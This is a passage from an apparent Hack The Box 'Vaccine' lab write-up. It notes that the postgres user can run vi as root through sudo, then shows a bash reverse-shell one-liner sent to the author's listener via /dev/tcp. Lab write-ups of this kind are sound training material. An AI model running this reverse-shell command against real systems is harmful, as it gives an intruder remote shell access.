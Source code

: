 !!!success Task 7
What program can the postgres user run as root using sudo? 
> **vi** (check how we found it with the steps below, took me a while) 

The os-shell is kind of broken and doesn't work well so we will try to open a reverse shell. I'll set up a listener on my machine:
<img src="/static/htb/vaccine/vaccine16.png" style="border-radius: 10px; width: 80%;"/>

And then I'll run : ***bash -c "bash -i >& /dev/tcp/10.10.14.245/1337 0>&1"*** (basically it should open an interractive shell towards my host)

<img src="/static/htb/vaccine/vaccine17.png" style="border-radius: 10px; width: 80%;"/>
<br><br>

Now we got the shell :
<br><br>
<img src="/static/htb/vaccine/vaccine18.png" style="border-radius: 10px; width: 80%;"/>

I found some flag but I think this is the answer for the next step.